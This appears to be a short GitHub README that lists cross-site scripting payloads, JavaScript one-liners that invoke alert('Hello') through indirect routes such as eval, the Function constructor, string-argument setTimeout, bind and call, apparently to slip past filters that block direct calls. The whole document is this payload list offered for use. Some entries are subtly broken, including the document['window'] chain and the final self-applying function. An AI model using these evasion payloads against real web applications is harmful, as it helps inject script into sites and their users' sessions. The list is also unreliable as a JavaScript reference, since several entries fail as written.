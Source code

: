 # XSS_Payloads2

XSS payloads

// Array Notation
`window['alert']('Hello');`

// Chained Array Notation
`this['window']['alert']('Hello');`

// Indirect Reference Using Call/Apply
`(0, eval)('alert("Hello")');`

// Calling via Function Constructor
`(new Function('alert("Hello")'))();`

// SetTimeout or SetInterval
`setTimeout('alert("Hello")', 0);`

// Indirect Reference with call
`window.alert.call(this, 'Hello');`

// Using bind
`const alertBind = alert.bind(window);
alertBind('Hello');`

// anon functions
`(() => alert('Hello'))();`

// Self-Invoking Function with alert
`(function(){ alert('Hello'); })();`

// Function call
`Function.prototype.call.call(alert, window, 'Hello');`

// Global this
`(this || window).alert('Hello');`

// chaining doc and window
`document['window']['alert']('Hello');`

// Reclusive indirect function calling
`(((f) => f(f))((f) => alert('Hello')))();`
